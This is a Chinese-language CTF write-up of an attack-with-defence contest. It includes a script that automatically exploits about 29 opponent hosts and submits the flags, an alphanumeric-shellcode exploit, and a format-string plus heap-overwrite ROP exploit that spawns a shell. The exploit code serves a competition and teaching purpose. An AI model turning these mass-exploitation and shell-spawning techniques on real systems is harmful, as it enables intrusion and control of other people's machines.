

<!--more-->


## TL;DR

​	这是我第一次打AWD，只能说准备实在不充分，恰逢比赛那天发烧整个人昏昏沉沉的，导致只出了一题，第二题看着不是很难，可惜时间不够了（md回家半小时给搓出来了），不过最后拿了个二等还不算太丢脸。

**比赛期间靶机交互用的指令**

```
ssh -i key.txt ctf@host
scp -i key.txt ./patched ctf@host:challenge
```

**比赛期间用的批量打批量交脚本**

```python
import exp
from pwn import *
import requests
import json

alive_hosts = []
for i in range(29):
    alive_hosts.append(f"10.103.{i+1}.3")

print("[*] Active targets:", alive_hosts)

url = "https://10.10.26.6/api/awd/batch_flag/"
headers = {"Content-Type": "application/json"}
token = "73219de062a17d402eedffc0cfcac17a"
pk = "166f8e1b83cd20e2cc1a813383e9d1b6"
while 1:
    for host in alive_hosts:
        try:
            flag = exp.exploit(host)   # 确保 exploit 返回 flag
            if flag is None: continue
            print(f"[+] {host} -> {flag}")

            data = {
                "token": token,
                "flag": flag,
                "pk": pk
            }
            print(data)
            r = requests.post(url, headers=headers, data=json.dumps(data), verify=False)

            if r.status_code == 200:
                print(f"[+] ----------------------------good-----------------------------")
            else:
                print(f"[-] Submit failed for {host}, code: {r.status_code}, resp: {r.text}")

        except Exception as e:
            print(f"[-] {host} failed: {e}")

```

#### **PATCH**

这个上通防即可，这里笔者遇到了个比较戏剧性的事情，笔者自己patch的没过check，但是上通防可以过主办方的check（）

## TrickOrTreat

题目会有一个地方直接跳转执行shellcode，打法一开始想的是AlphaNumeric Shellcode。

```python
from pwn import *
context.arch = 'amd64'
#context.log_level='debug'
libc = ELF('libc.so.6')

def exploit(host):
    io = remote(host,9999)
    #io = process('./TrickOrTreat') 
    io.sendline(b'1')
    buf =  b"RXWTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZjKTYfi9FD0t800T810T820T830T840T850T860T870T880T8C0T8F0T8G0t8I0T8P0T8R0T8SRAPZ0t8J0t8L0t8NZjcTYfi9O60t80RAQZ0T810T85ZQYQYQHpTTTTTTTTPHpwchowriTH1QqHAg1R1vjnXZP"
    print(len(buf)) 
    io.send(buf)
    sleep(1) 
    io.sendline(b'cat flag/flag')
    flag = ""
    io.recvuntil(b'Prank Time!\n')
    flag = io.recvuntil(b'}',timeout=2)
    if flag == "": return None
    return flag.decode()
    #io.interactive()

#exploit(0)

```

后来跟0RAYS的师傅聊了一下，发现直接00截断也行，唉只能说当时发烧给我热糊涂了。

## MsgHandler

套了两层菜单堆，第一层一个Fmt，第二层有越界写，直接写指针打任意地址写的ROP即可。

```python
from pwn import *
context.arch = 'amd64'
#context.log_level='debug'
libc = ELF('libc.so.6')

def send(io,ip,port,msg):
    io.sendlineafter(b'Please select an option: ',b'1') 
    io.sendlineafter(b' (format: a.b.c.d): ',ip.encode())
    io.sendlineafter(b'(default is 8080): ',str(port).encode()) 
    io.sendafter(b'Msg: ',msg)
def gethistory(io):
    io.sendlineafter(b'Please select an option: ',b'3') 
def goto(io):
    io.sendlineafter(b'Please select an option: ',b'4') 
def addConn(io,idx,ip,port,lens,con):
    io.sendlineafter(b'Please select an option: ',b'1')
    io.sendlineafter(b'Connection Number?\n', str(idx).encode())
    io.sendlineafter(b' (format: a.b.c.d): ',ip.encode())
    io.sendlineafter(b'(default is 8080): ',str(port).encode()) 
    io.sendlineafter(b'Add comment?',b'1')
    io.sendlineafter(b'Length?',str(lens).encode())
    io.sendlineafter(b'Content?',con)
def deleConn(io,idx):
    io.sendlineafter(b'Please select an option: ',b'2')
    io.sendlineafter(b'Connection Number?',str(idx).encode())
def listConn(io):
    io.sendlineafter(b'Please select an option: ',b'4')
def editConn1(io,idx,con):
    io.sendlineafter(b'Please select an option: ',b'3')
    io.sendlineafter(b'Connection Number?\n',str(idx).encode())
    io.sendlineafter(b'New IP?',b'0')
    io.sendlineafter(b'New Port?',b'0')
    io.sendlineafter(b'New Comment?',b'1')
    io.sendlineafter(b'New Length?',b'200')
    io.sendafter(b'New Content?',con)
def exploit(host):
    #io = remote(host,9999)
    io = process('./MsgHandler') 
    
    send(io,"127.0.0.2",8080,b'%p-%p-%p-%p-%p-%p')
    gethistory(io)
    io.recvuntil(b'msg:')
    leak = int(io.recvuntil(b'-',drop=True).decode(),16)
    log.info(hex(leak))
    goto(io)
    addConn(io,2,"127.0.0.3",8080,0x10,b'aaa')
    addConn(io,3,"127.0.0.3",8080,0x10,b'aaa')
    addConn(io,0,"127.0.0.3",8080,0x10,b'aaa')
    addConn(io,1,"127.0.0.3",8080,0x10,b'aaa')
    addConn(io,4,"127.0.0.3",8080,0x10,b'aaa')
    addConn(io,5,"127.0.0.3",8080,0x10,b'aaa')
    addConn(io,6,"127.0.0.3",8080,0x10,b'aaa')

    for i in range(5):
        deleConn(io,i)
    deleConn(io,5)  
    
    stack = leak + 0x7fff9fc09780 - 0x7fff9fc070b0
    listConn(io)
    log.info(hex(leak))
    editConn1(io,4,p64(0)+p64(0x20)+b'0'*0x10+p64(0)+p64(0x21)+p64(stack+0x38))
    
    listConn(io)
    io.recvuntil(b'Connection 5: 127.0.0.3:8080\nComment: ')
    leak_libc = u64(io.recv(6)+b'\x00'*2) + 0x7efdd8d37000 - 0x7efdd8d5b083
    rdi = leak_libc + 0x23b6a
    ret = leak_libc + 0x22679
    editConn1(io,4,p64(0)+p64(0x20)+b'0'*0x10+p64(0)+p64(0x21)+p64(stack))
    editConn1(io,5,p64(0)+p64(rdi)+p64(leak_libc+next(libc.search("/bin/sh\x00")))+p64(ret)+p64(leak_libc+libc.symbols['system']))
    sleep(1)
    io.sendlineafter(b'Please select an option: ',b'5')
 
    io.interactive()

exploit(0)
```




